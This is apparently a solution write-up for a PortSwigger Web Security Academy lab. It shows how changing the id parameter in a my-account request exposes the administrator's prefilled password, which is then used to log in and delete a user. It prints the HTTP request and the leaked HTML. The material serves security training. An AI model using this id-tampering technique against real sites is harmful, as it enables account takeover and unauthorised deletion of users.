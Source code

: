 # User ID controlled by request parameter with password disclosure

https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure

This lab has user account page that contains the current user's existing password, prefilled in a masked input.
To solve the lab, retrieve the administrator's password, then use it to delete the user `carlos`.
You can log in to your own account using the following credentials: `wiener:peter`

## Solution

Logging in using the provided credentials, and observing Burp Suite
```
GET /my-account?id=wiener HTTP/2
Host: 0a5700f30408764e82485c70004a00ec.web-security-academy.net
Cookie: session=
```
We can see that the id is no longer a GUID and a simple username. The account page has an `Update Email` and `Update Password` forms. Checking the source code of the page, we are able to see that it provides the current value for the password.

```html
<form class="login-form" action="/my-account/change-password" method="POST"><br/>
	<label>Password</label>
		<input required type="hidden" name="csrf" value="ZMub9ViaKI2nY2u5VFVPmwACPXTl4Yt5">
		<input required type=password name=password value='peter'/>
		<button class='button' type='submit'> Update password 
		</button>
</form>
```

We need to know the password of the administrator, we need to send this packet to the Repeater and change the account from `wiener` to `administrator`.

```html
<input required type=password name=password value='3l5esvdnvf7vtw9qso40'/>
```
We can now see the value of the `administrator`'s password, we can log in as admin and delete the user `carlos` and the lab is sovled!
